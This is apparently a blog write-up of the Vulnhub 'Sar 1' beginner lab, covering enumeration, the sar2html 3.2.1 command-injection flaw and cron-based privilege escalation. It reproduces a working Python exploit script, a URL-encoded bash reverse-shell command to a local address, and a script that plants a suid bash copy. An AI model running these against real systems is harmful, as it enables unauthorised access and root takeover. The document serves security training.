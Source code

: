 +++
title = "Vulnhub: Sar 1"
date = "2021-05-13"
author = ""
authorTwitter = "" #do not include @
tags = ["Beginner", "Vulnhub", "OSCP Prep", "sar2html", "Cron"]
keywords = ["", ""]
description = ""
showFullContent = false
cover = "/img/sar1/sar1.png"
images = ["/img/sar1/sar1.png"]
+++



| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ |
| Beginner | 15 Feb 2020 | Love |

# Summary

In this box there's only one port open that is running a vulnerable version of sar2html that
we take advantage of to get a low priv shell. For privilege escalation there was a cron job
running as root that was running a script we could write in.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.56.107
Host is up (0.000040s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 08:00:27:48:00:F5 (Oracle VirtualBox virtual NIC)
```

# Enumeration

## 80 (HTTP)

Using nmap scripts we see the existence of robots.txt

```sh
Nmap scan report for 192.168.56.107
Host is up (0.00042s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum:
|   /robots.txt: Robots file
|_  /phpinfo.php: Possible information file
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
From this we discover sar2HTML.

{{< image src="/img/sar1/sar1-01.png" alt="" position="center" style="border-radius: 8px;" >}}

Visiting this directory I get the version of sar2html as 3.2.1.

{{< image src="/img/sar1/sar1-02.png" alt="" position="center" style="border-radius: 8px;" >}}

Checking on searchsploit, a remote command execution vulnerability exists for this version.

```sh
searchsploit sar2html
```

{{< image src="/img/sar1/sar1-03.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as user

By executing the python script that exploits this RCE vulnerability, we are able to get a reverse shell.

script url: [https://www.exploit-db.com/exploits/49344](https://www.exploit-db.com/exploits/49344)

```
~/Vulnhub/Sar1  python3 49344.py

Enter The url => http://192.168.56.107/sar2HTML/
Command => id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Command => /bin/bash+-c+'/bin/bash+-i+>%26+/dev/tcp/192.168.56.1/9000+0>%261'
```

{{< image src="/img/sar1/sar1-04.png" alt="" position="center" style="border-radius: 8px;" >}}

Performing some enumeration to achieve some privilege escalation to root or lateral movement to other users
I found a cron job running as root.

{{< image src="/img/sar1/sar1-05.png" alt="" position="center" style="border-radius: 8px;" >}}

While we can't write to this file, the script being executed inside it is writeable.

{{< image src="/img/sar1/sar1-06.png" alt="" position="center" style="border-radius: 8px;" >}}


# Shell as root

By writing into write.sh using vi, we can escalate our privileges.

```
#!/bin/sh

cp /bin/bash /var/www/html/suidbash
chmod u+s /var/www/html/suidbash
```

This will create a copy of the bash binary and add suid permissions to it.

Once the cron job executes and creates the binary we can achieve a root shell and read all the flags.

{{< image src="/img/sar1/sar1-07.png" alt="" position="center" style="border-radius: 8px;" >}}

# Extras

Understanding the exploit script and perform the exploit manually. 

To my surprise, this exploit code was created by a good friend of mine, Musyoka Ian.

```py
# Exploit Title: sar2html 3.2.1 - 'plot' Remote Code Execution
# Date: 27-12-2020
# Exploit Author: Musyoka Ian
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Ubuntu 18.04.1

#!/usr/bin/env python3

import requests
import re
from cmd import Cmd

url = input("Enter The url => ")

class Terminal(Cmd):
    prompt = "Command => "
    def default(self, args):
        exploiter(args)

def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()

if __name__ == ("__main__"):
    terminal = Terminal()
    terminal.cmdloop()% 
```

According to the script the vulnerable parameter is plot and simply takes in our command and executes it.

When interacting with the application you can select OS, when you pick one the plot parameter is used.

{{< image src="/img/sar1/sar1-08.png" alt="" position="center" style="border-radius: 8px;" >}}

Here we can inject the command we want and execute shell commands. The OS option doesn't matter, anything after
the semi-colon `;` will be executed. For the reverse shell command remember to url encode special chars like I did
above

{{< image src="/img/sar1/sar1-09.png" alt="" position="center" style="border-radius: 8px;" >}}

Shoutout to Musyoka Ian, you can read his blog linked below. He does cool writeups on challenges as well.

[https://musyokaian.medium.com/](https://musyokaian.medium.com/)

